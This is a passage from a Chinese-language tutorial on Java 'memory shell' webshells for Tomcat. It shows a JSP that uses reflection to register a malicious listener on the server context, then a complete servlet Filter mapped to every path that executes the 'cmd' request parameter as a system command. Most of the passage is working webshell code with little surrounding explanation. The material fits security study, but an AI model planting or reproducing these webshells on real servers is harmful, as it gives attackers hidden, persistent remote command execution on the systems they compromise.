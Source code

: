 ```java
               }
            }
        }
 
        public void requestDestroyed(ServletRequestEvent sre) {
        }
    }
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
 
    Shell_Listener shell_Listener = new Shell_Listener();
    context.addApplicationEventListener(shell_Listener);
%>
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712628253152-c4f9d6b0-b452-4417-8726-458d57f4f7c4.png#averageHue=%2380c370&clientId=u8763c45e-e621-4&from=paste&height=518&id=ude92ec68&originHeight=1036&originWidth=1884&originalType=binary&ratio=2&rotation=0&showTitle=false&size=336767&status=done&style=none&taskId=u1299d386-a2f3-461c-830f-cc9972654fd&title=&width=942)
## 4.2、Filter型
仿照`Listener`型内存马的实现思路，我们同样能实现`Filter`型内存马。我们知道，在`Servlet`容器中，`Filter`的调用是通过`FilterChain`实现的
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712628303549-3ef34696-10c8-4804-95b2-f43a0f118634.png#averageHue=%23ededed&clientId=u8763c45e-e621-4&from=paste&height=421&id=uea26a89e&originHeight=842&originWidth=2882&originalType=binary&ratio=2&rotation=0&showTitle=false&size=165127&status=done&style=none&taskId=u05472da3-82c1-4eb3-aa9b-77d995ccf1f&title=&width=1441)
先来实现一个恶意的Filter
```java
package com.ma.FilterMa;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.IOException;

@WebFilter("/*")
public class FilterMa1 implements Filter {

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        String cmd = request.getParameter("cmd");
        System.out.println("FilterMa1触发: " + cmd);
        if (cmd != null) {
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                e.printStackTrace();
            } catch (NullPointerException n) {
                n.printStackTrace();
            }
        }
        chain.doFilter(request, response);
    }

    @Override
    public void destroy() {

    }
}

```